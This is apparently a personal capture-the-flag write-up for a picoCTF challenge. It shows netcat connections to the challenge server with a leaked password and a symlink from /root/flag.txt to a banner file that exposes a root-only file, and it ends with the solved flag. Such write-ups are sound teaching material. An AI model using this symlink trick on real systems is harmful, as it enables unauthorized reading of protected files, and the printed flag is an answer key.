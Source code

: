 ```yaml
---
ai_date: 2025-04-27 05:29:00
ai_summary: Used password from leak to gain a shell, exploited symlink permissions to read flag
ai_tags:
  - password-leak
  - symlink
  - permissions
created: 2024-08-08T01:21
updated: 2025-07-14T09:46
---
```


```bash
# First we get the password from the leak
nc tethys.picoctf.net 57925 # My_Passw@rd_@1234
nc tethys.picoctf.net 62276
> My_Passw@rd_@1234
> DEFCON
> John Draper
```

And we have our shell.

However we don't have permissions to read `/root/flag.txt`.
Had to use the hint.

Anyways, we can solve it with symlinks.

```bash
ln -s -T /root/flag.txt banner
```

Disconnect and connect again, and you will get the flag.

```flag
picoCTF{b4nn3r_gr4bb1n9_su((3sfu11y_68ca8b23}
```